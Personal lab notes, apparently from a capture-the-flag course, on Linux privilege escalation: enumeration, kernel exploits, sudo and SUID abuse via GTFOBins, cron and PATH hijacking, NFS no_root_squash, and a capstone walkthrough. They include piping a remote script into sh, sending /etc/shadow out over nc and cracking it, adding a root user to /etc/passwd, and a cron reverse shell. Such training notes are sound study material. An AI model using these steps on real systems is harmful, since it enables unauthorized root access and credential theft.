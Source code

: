 Priv Esc? The exploitation of vulns, design flaws, or configurations in an OS or desktop app to gain unauthorized acces to resources usually restricted from users.
- Reset passwords
- Bypass access control to data
- Edit software configs
- Enable persistent access
- Change user permissions
- Execute admin commands

# Enumeration
[[hostname]]
[[uname]]
[[_proc_version]]
[[_etc_issue]]
[[ps]]
[[env]]
[[sudo]]
[[ls]]
[[id]]
[[_etc_passwd]]
[[history]]
[[ifconfig]] + [[ip]]
[[netstat]]
[[find]]
[[python]]

# Automated Enumeration
Dependent of environment, ie. Python not available on target system
-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Kernel Exploits
1. Identify kernel version
2. Search for exploit code for the kernel version
3. Configure/run the exploit
Careful, as some exploits can crash the kernel
https://www.linuxkernelcves.com/cves
Ex. 
1. `uname -r`, get kernel version
2. find appropriate CVE and exploit (CVE-2015-1328), and figure out language used
3. get file to remote host, move to a writeable directory
	1. `nc -lvnp PORT < exploit.c` -- `nc IP PORT > exploit.c`
4. follow exploit instructions (compile c and then run w/ `gcc exploit.c -o exploit` -- `./exploit.c`)

# Sudo
run a `sudo -l` to see all commands with delegated sudo privileges
[https://gtfobins.github.io/](https://gtfobins.github.io/) info on how programs with sudo rights can be leveraged

Application Functions ex. Apache server allows for `apache2 -f ...` to specify a config file, this will spit out an error of the first line of a file if its invalid, like /etc/shadow

### LD Preload
1. check for LD_PRELOAD (w/ env_keep option) `env_keep+=LD_PRELOAD`
2. Write C shell code compiled into a share object (.so extension) [[LD_PRELOAD]]
3. Run program with sudo rights and point LD_PRELOAD to the .so file


`sudo nmap --interactive` ?? apparently gives a shell


# SUID
find SUID executable files with `find / -type f -perm 4000 2>/dev/null`   then compare those executables against GTFOBins: https://gtfobins.github.io

ex. no exploit bin available but nano has SUID set
1. nano to copy passwd and shadow files
2. use `unshadow passwd.txt shadow.txt > passwords.txt`
3. upload with a wordlist to John the Ripper
OR
1. Generate a password with [[openssl]] `openssl passwd -1 -salt SALT PASS`
2. using nano, add new user to [[_etc_passwd]] with the password, give root membership
3. `su` to newly created user

Practical ex (given ssh login, low priv): 
0. hardmode it by running nmap, then brute forcing passwords with `hydra` 
1. ssh into karen's account, run `id` to get a sense of privileges
2. Based on the box, I run a `find -perm -4000...` for files that have SUID bit set (could also try `sudo -l` for other commands)
	1. Results are then checked against GTFOBins to look for an exploitable program (use SUID filter)
	2. (optional) overlook options because they don't seem sus
	3. find `base64` on GTFOBins, this will read out any file into base64, also has a --decode option 
3. `base64 /etc/shadow | base64 -d > shadow.txt` to write out, and then decode the shadow file (make sure you're in a writeable dir)
4. `nc ... < shadow.txt` to a listener to transfer files to local machine (send over `/etc/passwd `too) 
5. `unshadow PASSWD SHADOW` to get files into a format for John da Ripper to read
6. `john COMBINED_FILE` then spits out any found hashes (can also specify `--wordlist`, but the default works here)


# Capabilities
use `getcap / -r 2>/dev/null` to get a list of programs with a capabilities set. A capability being a delegated function of a binary / process that doesn't need to ask for a higher privilege user. 
Reference these results against GTFOBins to find attack vectors
ex. 
using a Vim `cap_setuid+ep` capability we can set our UID to root with the script listed on GTFOBins

  
# Cron Jobs
Scripts / binaries can be scheduled to run at specified times, they will run with privileges of owner (hopefully root), not of the current user
Stored in: `/etc/crontabs`
Often admins will create a cronjob for a script, eventually delete it, but never remove the cronjob, allowing us to create a custom script in its absence
Example:
1. `cat /etc/crontabs` to see potential cron jobs
2. 4 jobs are built to run every minute, 3 bash, 1 python
	-  Went down a rabbit hole trying to get a bash shell to work through the .sh files
3. find out which files might be accessible/writable, and see that the `test.py` script is non-existent
4. Create a `/tmp/test.py` script with python reverse shell from github [[Payloads]]
	 -  run into a bunch of issues getting it to run. Try debugging by check `which` on program calls needed, run the same command from terminal and see if it connects (to a listener), then try running the script with the current user and see if it connects
5. Run a listener and wait for the connection


# PATH
$PATH is an environment variable that tells Linux where to search for executables that are not built into the shell or defined with an absolute path.
`echo $PATH`  
- Look for write privileges to folders in $PATH
- is $PATH itself modifiable?
- are there existing scripts that can be leveraged to run a binary?
Example:
1. I search the system `find -perm -4000 ...` for any files that have a SUID bit set. I see `/home/murdoch`, which is also a writable directory 
2. In there we find a compiled file `test` and its originating, uncompiled version `thm.py`. With `cat thm.py` we see that it's trying to run a command called 'thm'.
3. I add this writable dir to the $PATH with `export PATH=$PATH=/home/murdoch`
4. In the same dir, (since its writable and now in PATH) I add a bash script named `thm` that cat's the flag file and `chmod 777 thm`.
5. I run the `test` file which has SUID bit set, and it accesses my injected `thm` command, now running as root and am able to cat the flag

  
# NFS
Network File Sharing config is viewable in `/etc/exports`. Often share folders and remote management tools like SSH and Telnet can be leveraged for root.
(by default NFS will strip all permissions on files and drop user to "nfsnobody")  
`cat /etc/exports` if the `no_root_squash` option is added on a writable share, then we can create an executable with SUID set.
`showmount -e TARGET` to list share folders on the target (from local)
`mount -o rw TARGET:/SHARE_DIR /MY_DIR` to copy over the share to local
Example:
1. search system for exportable shares with `cat /etc/exports`   
2. Notice that they all have `no_root_squash` set. Look into each to find which is executable from, tried /tmp as this is usually an accessible dir, which proved right
3. back on local `showmount` and then create a `/tmp/backups` dir to copy over the share with `mount -o rw TARGET:/tmp /tmp/backups`
4. Create a executable here that sets as root and opens a shell, (see [[gcc]]) then `gcc test.c -o test -w`
5. `chmod 4700 test` to grant it SUID bit so that any user can run it on the target system
6. See that the file has been copied over to target, run it as normal user, then get root shell :)


# Capstone
1. No obvious exploits for kernel version (`uname -a` + web search), no Cron Job(`/etc/crontab`), no NFS (`/etc/exports`), nothing apparent in PATH (did search these for a bit, but should've just ran a SUID search first to avoid the rabbit hole), and no sudo on user `leonard`.
2. `bash -li` and saw there was history, got a clue from this seeing as user `missy` was accessed recently
3. ran a `find -perm -4000` and saw SUID was set on Base64 (again)
4. used `base64` to read and send `/etc/shadow` to my local with nc, along with `/etc/passwd`. Fed to Johnny who got me the password for missy
5. got the first flag from missy `/home/Documents` directory
	-  also skipped part 2 by just base64'ing out flag2.txt from `/home/rootflag.txt`
6. ran a `sudo -l` for missy and saw she had sudo on `find`
7. compared this to GTFOBins which gave a script to get root shell through` find`
8. activated root shell and ran a find on `flag2.txt`, got flag